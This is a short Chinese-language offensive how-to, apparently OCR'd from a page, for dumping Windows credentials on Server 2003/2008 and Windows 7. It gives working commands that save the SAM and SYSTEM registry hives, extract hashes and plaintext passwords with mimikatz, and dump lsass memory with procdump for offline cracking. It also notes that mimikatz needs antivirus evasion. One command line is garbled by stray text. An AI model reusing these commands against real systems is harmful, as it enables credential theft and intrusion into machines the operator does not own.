 

0x00 Windows Server 2003、Windows Server 2008、Windows 7 获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

通过 Procdump 获取 lsass 抓内存中的明文密码

通过procdump下载lsass信息

procdump.exe -accepteula -ma lsass.exe lsass.dmp

回传本地获取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

